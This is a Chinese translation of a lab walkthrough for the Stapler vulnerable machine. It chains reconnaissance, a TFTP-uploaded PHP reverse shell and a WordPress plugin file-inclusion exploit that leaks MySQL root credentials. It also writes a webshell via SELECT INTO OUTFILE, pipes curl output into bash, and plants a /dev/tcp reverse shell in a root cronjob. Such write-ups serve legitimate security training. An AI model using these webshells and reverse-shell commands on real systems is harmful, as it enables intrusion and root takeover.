# 订书机角 2—web shell 和 Cronjobs

> 原文：<https://infosecwriteups.com/stapler-pt-2-webshells-cronjobs-549b13dbf3d3?source=collection_archive---------0----------------------->


# 摘要

在[上一期](https://medium.com/bugbountywriteup/stapler-pt-1-c9a14793eb3)中，我们能够简单地枚举弱用户凭证，一直到一个`root` shell！这一次，我们来看看这个盒子上会引出`root`的另一条攻击链。

# 侦察

第 1 部分从使用`nmap -sV`的服务版本扫描开始。这次让我们做几次不同的扫描。

## 全端口扫描:

```
nmap -p- 192.168.15.151
```

全端口扫描

第一次看到港口`12380`。我们稍后肯定会回到这个话题。

## UDP 扫描:

```
nmap -sU 192.168.15.151
```

UDP 扫描

端口`69`可能很有前途，因为`tftp`有下载和上传文件的潜力。

## 端口 12380

在从初始的`nmap`扫描继续之前，让我们试着看看自从我们的`-p-`扫描作为*未知*返回后，端口`12380`上发生了什么。

```
nmap -sV -p12380 192.168.15.151
```

端口 12380

好极了。看起来我们有端口 80 和 12380 运行 web 服务。

# Webshell #1



http://192.168.15.151

起初参观 80 号港口并不令人印象深刻。这项服务上似乎没有太多变化。

因为我想不出任何可以戳的东西，所以我用`dirb`扫描任何附加目录，用`nikto`扫描附加信息。

```
dirb http://192.168.15.151
```

和

```
nikto -host 192.168.15.151
```

`dirb`和`nikto`都显示了两个目录:

```
http://192.168.15.151/.bashrchttp://192.168.15.151/.profile
```

我用`curl`在本地复制了这些文件，但是里面没有太多我能处理的东西。从这里我继续前进到港口`69`去看看`tftp`上发生了什么。

```
tftp 192.168.15.151
```

目录中的文件不能用`tftp`列出。因此，由于对可能在这个文件夹中的文件了解有限，我只是猜测`.bashrc`和`.profile`可能在这个目录中，而且它们确实在！

既然这样做了，我想看看我是否在`tftp`服务器上`put`了一个文件，并通过端口`80`执行它。为了测试这一点，我将 php 反向外壳从`/usr/share/webshells/php/php-reverse-shell.php`复制到`shell.php`



一般的文件传输协议

我为 shell 设置了一个监听器，并通过在浏览器中访问文件来执行它:


你有壳

# Webshell #2

参观港口`12380`有几个兔子洞。我被困在源代码中，因为有一个有趣的评论和一些 base64 可以解码成图像。



[http://192 . 168 . 15 . 151:12380](http://192.168.15.151:12380)



佐伊想雇用你

然而，这并没有导致任何有意义的事情。所以我继续用`nikto`扫描服务。

```
nikto -host 192.168.15.151
```

nikto -host 192.168.15.151

扫描显示在`robots.txt`有两个可访问的目录。我试图访问`/admin112233/`和`/blogblog/`，但每次都被重定向到主页。这让我困惑了一段时间。我终于发现`http`会把我重定向回主页，但`https`会把我带到页面。



blogblog=wordpress

一旦我能够到达`/blogblog/`并发现这是一个 WordPress 网站，我就用`wpscanner`扫描它，列举易受攻击的插件、未打补丁的版本等。这次扫描返回了超过 400 行的 T21，需要仔细筛选。

查看已安装的插件，我能够看到有一个视频嵌入插件在`searchsploit`中存在本地文件包含漏洞。



易受 LFI 攻击的插件

这个漏洞是为`http`写的，python 脚本不喜欢我们的服务器有自签名证书。为了解决这个问题，我添加了这两行:

```
import ssl
ssl._create_default_https_context = ssl._create_unverified_context
```

这个脚本缺乏适当的描述，当它成功运行时，它不会向终端打印任何东西来告诉你*它刚刚做了什么。查看代码，它将一份`wp-config.php`放入 WordPress 实例的`/wp-content/uploads/`文件夹中。该文件通常包含`mysql`的凭证。*



funky.jpeg

这个文件不是真正的 jpeg 文件，所以试图在浏览器中查看它会导致错误。但是，我们可以用`curl`检索这个文件，并在本地读取它。

```
curl -k https://192.168.15.151:12380/blogblog/wp-content/uploads/10099696544.jpeg
```

> `-k`忽略证书



mysql 根凭证

果然，这个文件包含了`mysql`的凭证——更好的是它们是`root`凭证！我们可以玩玩这个。让我们用它来写一个 webshell 到这个 WordPress 上传目录中。

## 用 MySQL 编写 Webshell

要在 oneliner 中使用这些凭证访问 mysql:

```
mysql --user=root --password=plbkac --host=192.168.15.151
```

我们可以在`mysql`将任意文件写入磁盘。然而，我们需要知道可以输出和执行文件的目录的完整路径。Web 目录通常在`/var/www/`目录之外。我们的上传文件夹是`/blogblog/wp-content/uploads/`，但是因为有不同的服务在`http`和`https`上运行，我们必须在这两个路径之间指定它，以获得我们写文件的完整路径:

```
/var/www/https/blogblog/wp-content/uploads/
```

要在`mysql`中写入文件，您可以提供一个文字字符串参数作为`select`语句，并用输出的路径和文件名写入`into outfile`。在本例中，我使用了一个小的 php webshell:

```
<?php echo shell_exec($_GET[‘cmd’]);?>
```

编写这个 webshell 的整个`mysql`语句是:

```
select “<?php echo shell_exec($_GET[‘cmd’]);?>” into outfile ‘/var/www/https/blogblog/wp-content/uploads/shell.php’;
```



mysql webshell

现在，我们可以在浏览器中远程执行代码:



远程代码执行

我们可以使用来自 [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 的 oneliner 来生成一个反向 shell:

```
python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.15.153”,1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```

这就是它的作用:



你有壳

# 权限提升

一旦我在盒子上，我运行`LinEnum.sh`，这是一个完整的枚举脚本，可以在[这里](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)找到。在我的主机上，我导航到文件所在的目录，用 python 启动一个`SimpleHTTPServer`:

```
python -m SimpleHTTPServer 80
```

> 在反向 shell 中，我可以在服务器上运行文件
> 
> 而不必下载到机器上

```
curl 192.168.15.153/LinEnum.sh | bash
```

通过将 curl 的输出直接传输到 bash，我可以运行`LinEnum.sh`而无需在本地编写文件。

这个脚本总是返回大量的干扰来筛选。所以我将直接跳到引导我进入`root`的部分。

## 克朗乔布斯

检查`/etc/cron.d`中的 cronjobs 发现，我们对一个名为`cron-logrotate.sh`的文件有写访问权，每 5 分钟运行一次`root`。



可写 cronjob

我在这个文件中写了一个反向 shell，等待`root`运行它。

```
echo “#!/bin/bash\nbash -i >& /dev/tcp/192.168.15.153/8888 0>&1" > cron-logrotate.sh
```



根

从这里我们得到了一个完全交互式的外壳！

请继续关注，下次我们将回头再次访问`mysql`以获得一些额外的提示和技巧。